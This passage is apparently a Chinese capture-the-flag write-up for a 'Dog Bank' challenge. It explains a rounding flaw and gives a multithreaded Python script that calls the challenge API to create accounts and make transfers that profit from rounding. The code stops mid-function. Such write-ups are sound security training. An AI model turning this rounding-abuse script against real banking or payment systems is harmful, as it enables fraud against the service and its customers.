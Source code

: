 第16题：狗狗银行
----------------

这题的关键就是要发现四舍五入，只要发现了这一点剩下的就十分简单了，设计流程、用浏览器F12扒api、编写爬虫一气呵成。

值得一提的是性能问题，由于这道题涉及大量网络请求，所以如果不进行优化的话运行会很慢。对于爬虫的一个最简单的提升性能方法就是多线程，我这里使用的是Python标准库`concurent.futures`的线程池，非常方便。这里贴一个去掉了调试日志和错误检查的简化版的代码，我做题时的原始代码在[文件](16_狗狗银行.py)里。

```python
from functools import partial
from urllib.parse import urljoin
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

import requests

class DogBankAPI:

    url = "http://202.38.93.111:10100/"
    headers = {"Authorization": ""}

    def reset(self):
        url = urljoin(self.url, "api/reset")
        r = requests.post(url, headers=self.headers)

    def user(self) -> dict:
        url = urljoin(self.url, "api/user")
        r = requests.get(url, headers=self.headers)
        return r.json()

    def create(self, type_: str):
        url = urljoin(self.url, "api/create")
        json_ = {"type": type_}
        r = requests.post(url, headers=self.headers, json=json_)

    def eat(self, account: int):
        url = urljoin(self.url, "api/eat")
        json_ = {"account": account}
        r = requests.post(url, headers=self.headers, json=json_)

    def transfer(self, src: int, dst: int, amount: int):
        url = urljoin(self.url, "api/transfer")
        json_ = {
            "src": src,
            "dst": dst,
            "amount": amount,
        }
        r = requests.post(url, headers=self.headers, json=json_)

def firstday(d: DogBankAPI, executor: ThreadPoolExecutor):
    d.reset()
    def create_credit(i):
        d.create("credit")
        d.transfer(src=i, dst=1, amount=2099)
    def create_debit(i):
        d.create("debit")
        d.transfer(src=1, dst=i, amount=167)
    map = executor.map
    map(create_credit, range(2, 12))
    map(create_debit, range(12, 143))
    d.eat(1)

def otherday(d: DogBankAPI, executor: ThreadPoolExecutor):
    user = d.user()
    if user["flag"] is not None:
```